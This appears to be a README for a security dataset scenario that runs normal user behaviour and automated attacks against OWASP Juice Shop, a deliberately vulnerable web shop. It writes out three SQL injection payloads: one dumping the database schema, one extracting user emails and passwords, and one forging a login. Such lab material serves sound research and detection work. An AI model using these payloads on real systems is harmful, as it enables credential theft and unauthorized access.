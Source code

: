 # Juice shop 

## Overview:
[OWASP Web shop application](https://owasp.org/www-project-juice-shop/) with multiple vulnerabilities.

## Victim:
Modern web application with multiple vulnerabilities. Runs at port 3000, using provided docker for deployment.

## Normal:
User actions include:
        register -> new account for user
        login    -> login user
        shopping -> put random item in basket
                 -> leave feedback to product
        complain -> upload complaint file
        checkout -> set address, delivery method and payment details
User first registers, then logs in and chooses random between shopping, complaining and completing the checkout.

## Exploit:
Running debian10 with selenium user.
Multiple attacks possible (use as 4th parameter following name):
* SQLInjectionSchema
* SQLInjectionCred
* SQLInjectionUser

### SQL-Injection - SQL Schema
Run malicious query at /rest/products/search:

        qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--

### SQL-Injection - Credentials
Run malicious query at /rest/products/search:

        qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--

### SQL-Injection - Non Existing User Login
Run malicious query as email while login:

        ' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--

## cli interface:

    sudo python3.7 main.py a b c d
    
    a: boolean run automated normal behavior
    b: integer recording time
       1-n: recording time in seconds
        -1: flag to run auto stop of recording after end of exploit
    c: boolean run automated exploit
    d: attack type (SQLInjectionSchema, SQLInjectionCred, SQLInjectionUser)